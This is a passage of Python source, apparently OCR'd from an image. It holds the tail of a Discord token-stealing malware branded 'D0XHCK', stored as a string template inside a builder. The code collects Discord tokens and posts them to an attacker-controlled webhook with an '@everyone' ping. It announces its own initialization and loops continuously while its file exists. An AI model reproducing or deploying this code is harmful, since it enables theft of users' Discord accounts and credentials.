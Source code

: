     def send(data: str):
        data = {"username": "D0XHCK",
                "avatar_url": "https://cdn.discordapp.com/attachments/878344886242385930/922066972479463434/21-april_pepper-the-robot.jpg",
                "embeds": data,
                "content": "@everyone" if pingme else ""}
        return urlopen(Request(webhook, data=dumps(data).encode('utf-8'), headers=Discord.setheaders()))


sent_tokens = []

def token_grab():
    for token in Discord.get_tokens():
        if token not in sent_tokens:
            Grab.token_grab(token)
        sent_tokens.append(token)


ready_data = [{
    "title": "D0XHCK",
    "description": "Initialized!",
    "url": "https://github.com/DOXHCK",
    "image": {
        "url": "https://cdn.discordapp.com/attachments/878344886242385930/922066972479463434/21-april_pepper-the-robot.jpg"
    },
    "color": 0x196F3D,
    "fields": [
        {
            "name": "**Ready!**",
            "value": 'I am ready to find some tokens!',
            "inline": True
        }
    ],

    "thumbnail": {
        "url": "https://cdn.discordapp.com/attachments/878344886242385930/922066972479463434/21-april_pepper-the-robot.jpg"
    },

    "footer": {
        "text": "par DOXHCK"
    }
}]

Grab.send(ready_data)


while True:
    if not isfile(__file__):
        exit()
    token_grab()
"""
    scarecrow = """
# hi
